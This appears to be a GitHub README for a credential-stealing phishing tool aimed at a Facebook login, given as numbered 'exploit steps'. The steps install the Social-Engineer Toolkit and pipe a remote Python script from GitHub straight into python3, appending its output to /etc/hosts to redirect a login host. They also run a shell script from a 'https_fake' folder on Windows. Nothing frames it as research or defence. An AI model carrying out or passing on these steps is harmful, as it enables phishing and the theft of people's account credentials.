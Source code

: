 # SSTC-login-HTTPS stealing credentials
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-login-credentials/blob/master/logo/http.png)

# Exploit steps:
1. - Installing requirements
`pip install -r requirements.txt`

2. - Prepitr packages
For other Linux distro attackers
```
$ git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
$ cd set
$ pip install -r requirements.txt
```
// For kali 
```bash 
setoolkit
```

3. - Creating hosts exploit facebook.bgr
- For Linux
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-login-credentials/master/hosts/modules/pyexploitcreate/pyexploitcreateIP_host_fake.py | python3 >> /etc/hosts
```
- For Windows
```
git clone https://github.com/nu11secur1ty/SSTC-HTTPS-login-credentials.git 
cd SSTC-HTTPS-login-credentials/sh1mazu_https_fake
bash sh1m@zu.sh
```


